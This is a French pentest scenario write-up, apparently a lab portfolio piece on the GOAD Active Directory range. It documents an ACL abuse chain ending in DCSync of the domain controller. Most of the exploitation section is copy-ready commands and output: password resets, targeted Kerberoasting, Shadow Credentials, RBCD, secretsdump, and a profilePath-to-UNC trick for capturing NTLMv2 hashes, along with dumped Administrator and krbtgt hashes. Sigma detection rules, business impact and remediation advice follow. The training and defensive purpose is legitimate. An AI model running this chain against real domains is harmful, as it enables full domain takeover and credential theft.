

# SC-AD-004 — ACL Abuse Chain

## Classification

| Champ | Valeur |
|-------|--------|
| **Code scénario** | SC-AD-004 |
| **Nom** | ACL Abuse Chain — ForceChangePassword → DCSync |
| **Cible** | GOAD v3 — sevenkingdoms.local / KINGSLANDING (192.168.10.10) |
| **VLAN** | 10 — AD Lab (192.168.10.0/24) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 9.8 (AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H) |
| **CWE** | CWE-266 (Incorrect Privilege Assignment), CWE-284 (Improper Access Control) |
| **MITRE ATT&CK** | T1098 (Account Manipulation), T1484 (Domain Policy Modification), T1003.006 (DCSync), T1558.003 (Targeted Kerberoasting), T1556 (Shadow Credentials) |
| **Mayfly Reference** | Part 11 — ACL Abuse |
| **Date** | Mars 2026 |
| **Auteur** | hik3nR00t |

---

## Résumé exécutif

### Pour un recruteur

Ce scénario démontre l'exploitation manuelle d'une **chaîne ACL Active Directory** composée de 8 délégations de droits mal configurées, enchaînées depuis un compte utilisateur standard jusqu'à la compromission totale du domaine `sevenkingdoms.local`. Les techniques mises en œuvre couvrent 6 types d'ACL distincts (ForceChangePassword, GenericWrite, WriteDacl, AddSelf, WriteOwner, GenericAll), le **Targeted Kerberoasting**, les **Shadow Credentials** sur compte machine de DC, et le **DCSync**. Aucun exploit de vulnérabilité logicielle n'est utilisé — uniquement des fonctionnalités AD légitimes détournées via des droits excessifs.

### Pour un auditeur ISO 27001 / NIS2

Ce scénario met en évidence des non-conformités critiques aux contrôles de gouvernance des identités et des accès :

- **Violation du principe du moindre privilège** : des comptes utilisateurs standards disposent de droits ACL sur d'autres objets AD (ForceChangePassword, WriteDacl, GenericAll) sans justification métier documentée ni revue périodique.
- **Absence de ségrégation des privilèges** : la chaîne de droits entre objets AD (utilisateurs → groupes → comptes machine DC) n'est pas auditée, permettant l'escalade indirecte de privilèges sans détection.
- **Mauvaise configuration de la délégation Kerberos** : le droit GenericAll sur le compte machine `KINGSLANDING$` permet l'injection de Shadow Credentials et l'extraction du hash NT du DC sans ADCS.
- **Absence de monitoring des modifications ACL** : aucune alerte n'est configurée sur les Event IDs 4670 (modification DACL), 5136 (modification attribut AD), 4662 (DCSync).

Au regard de **NIS2 Art.21**, l'absence de mesures de gestion des accès privilégiés et de supervision des modifications d'objets AD constitue une défaillance de la politique de sécurité des systèmes d'information. Un incident de ce type nécessite **notification à l'autorité compétente sous 24 heures** (Art.23).

### Pour un RSSI

Impact immédiat : compromission totale du domaine `sevenkingdoms.local` — hash NT Administrator (`c66d72021a2d4744409969a581a1705e`) et krbtgt (`b5fc63f9f630a7899d329401734b1c27`) extraits via DCSync. La possession du hash krbtgt permet la création de **Golden Tickets** assurant une persistance indétectable et illimitée dans le temps. Coût de remédiation estimé : **150 000€ — 400 000€** (forensics, reconstruction AD, rotation secrets, formation).

---

## Diagramme réseau



---

## Kill Chain ACL — sevenkingdoms.local

```mermaid
graph LR
    A["tywin.lannister<br/>powerkingftw135<br/>Point d'entrée"] -->|"ForceChangePassword"| B["jaime.lannister<br/>P@ssw0rd123!"]
    B -->|"GenericWrite<br/>Targeted Kerberoast"| C["joffrey.baratheon<br/>1killerlion"]
    C -->|"WriteDacl → GenericAll"| D["tyron.lannister<br/>P@ssw0rd123!"]
    D -->|"AddSelf"| E["SMALL COUNCIL"]
    E -->|"AddMember"| F["DRAGONSTONE"]
    F -->|"WriteOwner → GenericAll"| G["KINGSGUARD"]
    G -->|"GenericAll → Password Reset"| H["stannis.baratheon<br/>P@ssw0rd123!"]
    H -->|"Shadow Credentials"| I["KINGSLANDING$<br/>NT: 6b02f735..."]
    I -->|"DCSync"| J["Administrator<br/>NT: c66d7202...<br/>🔴 Pwn3d!"]

    style A fill:#f39c12,color:#fff
    style J fill:#e74c3c,color:#fff
```



---

## Recon & BloodHound

### Découverte réseau

```bash
netexec smb 192.168.10.0/24 --gen-relay-list /tmp/targets.txt
```

**Résultat :**

| Hôte | IP | Signing | SMBv1 | Relay possible |
|------|-----|---------|-------|----------------|
| KINGSLANDING | 192.168.10.10 | True | False | ❌ |
| WINTERFELL | 192.168.10.11 | True | False | ❌ |
| MEEREEN | 192.168.10.12 | True | True | ❌ |
| CASTELBLACK | 192.168.10.22 | False | False | ✅ |
| BRAAVOS | 192.168.10.23 | False | True | ✅ |

### Collecte BloodHound

```bash
netexec ldap 192.168.10.11 -u 'jon.snow' -p 'iknownothing' -d north.sevenkingdoms.local --bloodhound --collection All --dns-server 192.168.10.11
```

```bash
netexec ldap 192.168.10.10 -u 'tywin.lannister' -p 'powerkingftw135' -d sevenkingdoms.local --bloodhound --collection ACL --dns-server 192.168.10.10
```

```bash
netexec ldap 192.168.10.12 -u 'missandei' -p 'fr3edom' -d essos.local --bloodhound --collection ACL --dns-server 192.168.10.12
```

### Chaîne ACL identifiée — BloodHound Pathfinding

**Source :** `TYWIN.LANNISTER@SEVENKINGDOMS.LOCAL`  
**Target :** `DOMAIN ADMINS@SEVENKINGDOMS.LOCAL`

```
TYWIN.LANNISTER
  → [ForceChangePassword] → JAIME.LANNISTER
    → [GenericWrite]      → JOFFREY.BARATHEON
      → [WriteDacl]       → TYRON.LANNISTER
        → [AddSelf]       → SMALL COUNCIL
          → [AddMember]   → DRAGONSTONE
            → [WriteOwner]→ KINGSGUARD
              → [GenericAll] → STANNIS.BARATHEON
                → [GenericAll] → KINGSLANDING$ (DC)
                  → [DCSync]  → Administrator (Pwn3d!)
```

---

## Exploitation — Kill Chain Complète

### Étape 1 — ForceChangePassword : tywin → jaime.lannister

**Principe :** `ForceChangePassword` permet de changer le mot de passe d'un compte sans connaître l'actuel. Pas de log suspect — Event ID 4723 uniquement.

```bash
net rpc password jaime.lannister 'P@ssw0rd123!' -U 'sevenkingdoms.local/tywin.lannister%powerkingftw135' -S 192.168.10.10
```

```bash
netexec smb 192.168.10.10 -u 'jaime.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local
```

```
SMB  192.168.10.10  445  KINGSLANDING  [+] sevenkingdoms.local\jaime.lannister:P@ssw0rd123!
```

---

### Étape 2 — GenericWrite : jaime → joffrey.baratheon (Targeted Kerberoasting)

**Principe :** `GenericWrite` permet d'écrire des attributs arbitraires sur l'objet cible. On ajoute un SPN temporaire pour déclencher le Kerberoasting, puis on supprime le SPN (cleanup automatique).

```bash
python3 /opt/lwp-scripts/targetedKerberoast.py -u 'jaime.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --dc-ip 192.168.10.10 -o /tmp/joffrey_tgs.hash
```

```bash
hashcat -m 13100 /tmp/joffrey_tgs.hash /usr/share/wordlists/rockyou.txt --force
```

```bash
netexec smb 192.168.10.10 -u 'joffrey.baratheon' -p '1killerlion' -d sevenkingdoms.local
```

```
[+] sevenkingdoms.local\joffrey.baratheon:1killerlion
```

> **Note :** `targetedKerberoast.py` gère automatiquement l'ajout et la suppression du SPN temporaire.

---

### Étape 3 — WriteDacl : joffrey → tyron.lannister (GenericAll)

**Principe :** `WriteDacl` permet de modifier la DACL de l'objet cible. On s'accorde `GenericAll` sur `tyron.lannister`, donnant un contrôle total sur ce compte.

```bash
~/.local/bin/bloodyAD -u 'joffrey.baratheon' -p '1killerlion' -d sevenkingdoms.local --host 192.168.10.10 add genericAll tyron.lannister 'joffrey.baratheon'
```

```
[+] joffrey.baratheon has now GenericAll on tyron.lannister
```

---

### Étape 4 — GenericAll : Reset mot de passe tyron.lannister

```bash
~/.local/bin/bloodyAD -u 'joffrey.baratheon' -p '1killerlion' -d sevenkingdoms.local --host 192.168.10.10 set password tyron.lannister 'P@ssw0rd123!'
```

```bash
netexec smb 192.168.10.10 -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local
```

```
[+] sevenkingdoms.local\tyron.lannister:P@ssw0rd123!
```

---

### Étape 5 — AddSelf : tyron → SMALL COUNCIL

**Principe :** `AddSelf` permet à un utilisateur de s'ajouter lui-même à un groupe sans être administrateur de ce groupe.

```bash
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 add groupMember 'SMALL COUNCIL' 'tyron.lannister'
```

```bash
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 get object tyron.lannister --attr memberOf
```

```
memberOf: CN=Small Council,OU=Crownlands,DC=sevenkingdoms,DC=local; CN=Lannister,OU=Westerlands,DC=sevenkingdoms,DC=local
```

---

### Étape 6 — AddMember : SMALL COUNCIL → DRAGONSTONE

**Principe :** En tant que membre de `SMALL COUNCIL`, `tyron.lannister` hérite du droit `AddMember` sur le groupe `DRAGONSTONE`.

```bash
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 add groupMember 'DragonStone' 'tyron.lannister'
```

```bash
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 get object tyron.lannister --attr memberOf
```

```
memberOf: CN=DragonStone,...; CN=Small Council,...; CN=Lannister,...
```

---

### Étape 7 — WriteOwner : DRAGONSTONE → KINGSGUARD

**Principe :** `WriteOwner` permet de modifier le propriétaire d'un objet AD. En prenant ownership de `KINGSGUARD`, on peut ensuite s'accorder `GenericAll` et rejoindre le groupe.

```bash
# Prendre ownership
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 set owner 'KingsGuard' 'tyron.lannister'
```

```bash
# S'accorder GenericAll
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 add genericAll 'KingsGuard' 'tyron.lannister'
```

```bash
# Rejoindre le groupe
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 add groupMember 'KingsGuard' 'tyron.lannister'
```

```
[+] Old owner replaced by tyron.lannister on KingsGuard
[+] tyron.lannister has now GenericAll on KingsGuard
[+] tyron.lannister added to KingsGuard
```

---

### Étape 8 — GenericAll : KINGSGUARD → stannis.baratheon

**Principe :** `KINGSGUARD` dispose de `GenericAll` sur `stannis.baratheon`. On reset son mot de passe.

```bash
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 set password stannis.baratheon 'P@ssw0rd123!'
```

```bash
netexec smb 192.168.10.10 -u 'stannis.baratheon' -p 'P@ssw0rd123!' -d sevenkingdoms.local
```

```
[+] sevenkingdoms.local\stannis.baratheon:P@ssw0rd123!
```

---

### Étape 9 — Shadow Credentials : stannis → KINGSLANDING$ (DC)

**Principe :** `stannis.baratheon` dispose de `GenericAll` sur `KINGSLANDING$`. On injecte une clé RSA dans l'attribut `msDS-KeyCredentialLink` du compte machine via Shadow Credentials, puis on obtient le hash NT du DC via PKINIT.

```bash
~/.local/bin/bloodyAD -u 'stannis.baratheon' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 add shadowCredentials 'KINGSLANDING$'
```

```bash
certipy auth -pfx 'KINGSLANDING$_hp.pfx' -dc-ip 192.168.10.10 -domain sevenkingdoms.local -username 'KINGSLANDING$'
```

```
[*] Got TGT
[*] Got hash for 'kingslanding$@sevenkingdoms.local': aad3b435b51404eeaad3b435b51404ee:6b02f735fc6063bd82d3a696c59cdc06
```

> **Note :** PKINIT nécessite que le DC ait une CA ADCS. Sans ADCS, on utilise le hash NT du compte machine pour le DCSync directement.

---

### Étape 10 — DCSync : Compromission totale

```bash
secretsdump.py 'sevenkingdoms.local/KINGSLANDING$@192.168.10.10' -hashes 'aad3b435b51404eeaad3b435b51404ee:6b02f735fc6063bd82d3a696c59cdc06' -just-dc-ntlm
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b5fc63f9f630a7899d329401734b1c27:::
```

```bash
netexec smb 192.168.10.10 -u 'Administrator' -H 'c66d72021a2d4744409969a581a1705e' -d sevenkingdoms.local
```

```
[+] sevenkingdoms.local\Administrator:c66d72021a2d4744409969a581a1705e (Pwn3d!)
```

---

## Credentials compromis

| Compte | Mot de passe / Hash NT | Méthode |
|--------|----------------------|---------|
| jaime.lannister | P@ssw0rd123! | ForceChangePassword |
| joffrey.baratheon | 1killerlion | Targeted Kerberoasting |
| tyron.lannister | P@ssw0rd123! | GenericAll → Password Reset |
| stannis.baratheon | P@ssw0rd123! | GenericAll → Password Reset |
| KINGSLANDING$ | 6b02f735fc6063bd82d3a696c59cdc06 | Shadow Credentials |
| Administrator | c66d72021a2d4744409969a581a1705e | DCSync |
| krbtgt | b5fc63f9f630a7899d329401734b1c27 | DCSync |

---

## Techniques alternatives (non exploitées)

Ces techniques couvrent les mêmes étapes de la chaîne mais avec des vecteurs différents — documentées ici pour couverture complète de la Part 11 Mayfly.

### Alt-1 — GenericWrite : Shadow Credentials direct sur joffrey (Étape 2)

Au lieu du Targeted Kerberoasting, `GenericWrite` sur `joffrey.baratheon` peut être exploité via Shadow Credentials si ADCS est actif sur le domaine. Plus furtif : pas de modification de SPN dans les logs.

```bash
certipy shadow auto -u 'jaime.lannister@sevenkingdoms.local' -p 'P@ssw0rd123!' -account 'joffrey.baratheon' -dc-ip 192.168.10.10
```

Résultat attendu : TGT + hash NT de `joffrey.baratheon` sans cracking.

> **Pourquoi non utilisé ici :** `sevenkingdoms.local` n'a pas de CA ADCS — PKINIT impossible. Le Targeted Kerberoasting était le seul vecteur viable.

---

### Alt-2 — GenericWrite : profilePath abuse → NTLMv2 capture (Étape 2)

Autre abus de `GenericWrite` : modifier l'attribut `profilePath` de `joffrey.baratheon` pour pointer vers un partage UNC contrôlé. À la prochaine connexion de joffrey, on capture son hash NTLMv2.

```python
import ldap3
dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"
server = ldap3.Server('192.168.10.10')
conn = ldap3.Connection(server, user="sevenkingdoms.local\\jaime.lannister", password="P@ssw0rd123!", authentication=ldap3.NTLM)
conn.bind()
conn.modify(dn, {'profilePath': [(ldap3.MODIFY_REPLACE, '\\\\192.168.50.X\\share')]})
print(conn.result)
conn.unbind()
```

```bash
# Capturer le hash NTLMv2 avec Responder
sudo responder -I eth0 -wv
```

> **Pourquoi non utilisé ici :** Nécessite une connexion active de joffrey — GOAD a des bots (robb.stark, eddard.stark) mais pas joffrey. Technique couverte en SC-AD-003 (NTLM Relay).

---

### Alt-3 — WriteDacl + Shadow Credentials sur tyron (Étape 3)

Après avoir obtenu `FullControl` sur `tyron.lannister` via WriteDacl, on peut utiliser Shadow Credentials au lieu du password reset — plus discret (pas d'Event ID 4723/4724).

```bash
# Lire les permissions actuelles
dacledit.py -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local/joffrey.baratheon:1killerlion'

# Écrire FullControl
dacledit.py -action 'write' -rights 'FullControl' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local/joffrey.baratheon:1killerlion'

# Shadow Credentials (ADCS requis)
certipy shadow auto -u 'joffrey.baratheon@sevenkingdoms.local' -p '1killerlion' -account 'tyron.lannister' -dc-ip 192.168.10.10
```

> **Pourquoi non utilisé ici :** Pas de CA ADCS sur `sevenkingdoms.local`. Méthode `bloodyAD add genericAll` + password reset utilisée à la place.

---

### Alt-4 — GenericAll sur KINGSLANDING$ : RBCD (Étape 9)

Alternative aux Shadow Credentials : `Resource-Based Constrained Delegation (RBCD)`. On crée un compte machine attaquant, on lui donne les droits de délégation sur `KINGSLANDING$`, puis S4U2Self + S4U2Proxy pour obtenir un TGS Administrator.

```bash
# Créer un compte machine attaquant
addcomputer.py 'sevenkingdoms.local/stannis.baratheon:P@ssw0rd123!' -dc-ip 192.168.10.10 -computer-name 'ATTACKER$' -computer-pass 'P@ssw0rd123!'

# Configurer RBCD : ATTACKER$ peut déléguer vers KINGSLANDING$
rbcd.py -action write -delegate-from 'ATTACKER$' -delegate-to 'KINGSLANDING$' 'sevenkingdoms.local/stannis.baratheon:P@ssw0rd123!' -dc-ip 192.168.10.10

# S4U2Self + S4U2Proxy → TGS Administrator
getST.py -spn 'cifs/KINGSLANDING.sevenkingdoms.local' 'sevenkingdoms.local/ATTACKER$:P@ssw0rd123!' -impersonate administrator -dc-ip 192.168.10.10

# Utiliser le TGS
export KRB5CCNAME=administrator.ccache
secretsdump.py -k -no-pass KINGSLANDING.sevenkingdoms.local -just-dc-ntlm
```

> **Pourquoi non utilisé ici :** Nécessite le droit d'ajouter des comptes machine au domaine (`ms-DS-MachineAccountQuota > 0`). Shadow Credentials est plus direct et ne requiert pas de compte machine. RBCD est documenté en SC-AD-007 (Kerberos Delegation).

---

## MITRE ATT&CK Mapping

| Technique | ID | Description |
|-----------|-----|-------------|
| Account Manipulation | T1098 | Modification droits ACL, ajout membres groupes |
| Domain Policy Modification | T1484 | Modification DACL objets AD via WriteDacl |
| OS Credential Dumping — DCSync | T1003.006 | Extraction NTDS.DIT via compte machine DC |
| Steal or Forge Kerberos Tickets | T1558.003 | Targeted Kerberoasting joffrey.baratheon |
| Modify Authentication Process | T1556 | Shadow Credentials KINGSLANDING$ |
| Account Discovery | T1087.002 | BloodHound enumération ACL complète |
| Valid Accounts | T1078.002 | Utilisation comptes domaine compromis |

---

## Impact métier — MediaTech Groupe SA

### Synthèse
En enchaînant des **droits ACL mal maîtrisés** (ForceChangePassword → GenericWrite → WriteDACL → Shadow Credentials → DCSync), l'attaquant passe d'un compte utilisateur lambda à **Domain Admin**, sans exploiter la moindre CVE — uniquement des permissions accumulées au fil des ans. À ce niveau, il détient **les clés du royaume** : il peut arrêter la publication, chiffrer le SI (ransomware), et accéder à tout — y compris les échanges rédactionnels et les sources.

### Gravité : 🔴 CRITIQUE *(compromission complète du domaine)*

### Impact chiffré

| Poste | Estimation | Hypothèse |
|---|---|---|
| Arrêt de la production éditoriale | 400 k€ – 1,5 M€ | Ransomware ou confinement d'urgence : 3 à 7 jours sans publication normale. Le coût, c'est **les éditions perdues** + la remise en route. |
| Reconstruction AD / restauration | 200 k€ – 500 k€ | Rebuild d'un annuaire compromis à la racine (double rotation krbtgt, restauration de confiance, forensic). |
| Exposition RGPD massive | 300 k€ – 2 M€ | Accès à l'ensemble des bases (abonnés, RH, finance). Notification CNIL 72h. |
| Réponse à incident majeure | 150 k€ – 400 k€ | DFIR complet, cellule de crise, accompagnement juridique. |
| **Total réaliste** | **~1 M€ – 4,4 M€** | Fourchette d'un incident majeur pour un quotidien national. |

> **Réalité rédaction** : Domain Admin sur le SI d'un quotidien, c'est le scénario noir absolu — le jour où **le journal ne sort pas** et où on ne sait pas si les échanges avec les sources ont fuité. L'atteinte n'est pas que financière, elle est **existentielle pour le titre**.

### Réglementaire
- **RGPD Art. 32 + 33/34** — compromission majeure, notification CNIL et personnes concernées.
- **NIS2 Art. 21 + 23** — incident significatif, notification obligatoire.
- **ISO 27001 A.8.2** (accès privilégiés), **A.5.15** (contrôle d'accès), **A.8.3** (restriction d'accès).

### Décision COMEX
- **Financer un projet Tiering AD + PAW** (postes d'administration dédiés) et une **revue exhaustive des ACL** — c'est la racine du problème, pas un correctif ponctuel.
- Valider un **plan de reprise AD** (procédure de rebuild krbtgt/DC testée) et une **cyber-assurance** dimensionnée sur ce scénario.

## Détection

### Event IDs Windows à monitorer

| Event ID | Description | Criticité |
|----------|-------------|-----------|
| 4723 / 4724 | Changement de mot de passe (ForceChangePassword) | 🟠 Haute |
| 4670 | Modification des permissions d'un objet | 🔴 Critique |
| 5136 | Modification d'un attribut d'objet AD | 🔴 Critique |
| 4662 | Opération effectuée sur un objet AD (DCSync) | 🔴 Critique |
| 4728 / 4732 / 4756 | Ajout d'un membre à un groupe | 🟠 Haute |

### Règle Sigma — ForceChangePassword

```yaml
title: Force Password Change via RPC
id: 3f07b1b2-9c4d-4b1a-b2e4-1a2c3d4e5f67
status: stable
description: Détecte un changement de mot de passe forcé via RPC sans connaissance du mot de passe actuel
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID:
      - 4723
      - 4724
    SubjectUserName|not|endswith: '$'
  condition: selection
falsepositives:
  - Opérations légitimes de reset helpdesk
level: high
tags:
  - attack.credential_access
  - attack.t1098
```

### Règle Sigma — DCSync

```yaml
title: DCSync Attack Detection
id: a2b3c4d5-e6f7-8901-a2b3-c4d5e6f78901
status: stable
description: Détecte une attaque DCSync via les droits de réplication DS
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4662
    Properties|contains:
      - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
      - '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'
      - '89e95b76-444d-4c62-991a-0facbeda640c'
  filter:
    SubjectUserName|endswith: '$'
  condition: selection and not filter
falsepositives:
  - Contrôleurs de domaine légitimes effectuant la réplication
level: critical
tags:
  - attack.credential_access
  - attack.t1003.006
```

### Règle Sigma — Shadow Credentials

```yaml
title: Shadow Credentials Injection — msDS-KeyCredentialLink
id: b3c4d5e6-f789-0123-b3c4-d5e6f7890123
status: stable
description: Détecte la modification de l'attribut msDS-KeyCredentialLink caractéristique des Shadow Credentials
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 5136
    AttributeLDAPDisplayName: 'msDS-KeyCredentialLink'
  condition: selection
falsepositives:
  - Enrôlement Windows Hello for Business légitime
level: critical
tags:
  - attack.credential_access
  - attack.t1556
```

---

## Recommandations

### Actions immédiates (J+1)

| Priorité | Action | Complexité |
|----------|--------|------------|
| 🔴 CRITIQUE | Auditer et supprimer les ACL excessives via BloodHound — focus ForceChangePassword, GenericAll, WriteDacl | Moyenne |
| 🔴 CRITIQUE | Réinitialiser les mots de passe de tous les comptes compromis dans la chaîne | Faible |
| 🔴 CRITIQUE | Réinitialiser **2x** le mot de passe `krbtgt` pour invalider les Golden Tickets | Faible |
| 🟠 HAUTE | Activer `Protected Users` sur les comptes sensibles (bloque delegation Kerberos) | Faible |
| 🟠 HAUTE | Activer SMB Signing sur CASTELBLACK et BRAAVOS | Faible |

### Actions court terme (J+30)

| Priorité | Action | Complexité |
|----------|--------|------------|
| 🟠 HAUTE | Implémenter le principe du moindre privilège — revue complète des ACL AD | Haute |
| 🟠 HAUTE | Déployer Microsoft Defender for Identity — détection Shadow Credentials, Kerberoasting | Moyenne |
| 🟠 HAUTE | Activer l'audit des modifications d'ACL (Event ID 4670, 5136) | Faible |
| 🟡 MOYENNE | Implémenter le Tiering Model AD (Tier 0 / Tier 1 / Tier 2) | Haute |
| 🟡 MOYENNE | Déployer des gMSA (Group Managed Service Accounts) pour les comptes de service | Moyenne |

---

## Décision COMEX Requise

> ⚠️ **ACTION COMEX — Sous 48 heures**

Le niveau de compromission constaté (Domain Admin + krbtgt) nécessite une décision de direction sur les points suivants :

- **Notification CNIL** (RGPD Art.33) — délai 72h à compter de la détection
- **Notification autorité compétente NIS2** (Art.23) — délai 24h
- **Déclenchement PCA** — systèmes impactés à isoler
- **Budget reconstruction Active Directory** — estimation 150 000€ — 400 000€
- **Communication de crise** — interne et externe
- **Engagement cabinet forensics** — investigation complète et rapport légal

---

---

### Annexe — GPO Abuse pyGPOAbuse (non provisionné)

pyGPOAbuse exploite les droits d'écriture sur une GPO pour ajouter une tâche planifiée exécutée sur toutes les machines liées. Aucun utilisateur compromis dans le lab GOAD n'a de droits d'écriture sur les GPOs — les permissions sont réservées aux Domain Admins, Enterprise Admins et Group Policy Creator Owners. La technique n'est pas exploitable sans re-provisioning des vulnérabilités GOAD.

---

*HikenRoot Forge — SC-AD-004 — hik3nR00t — Mars 2026*
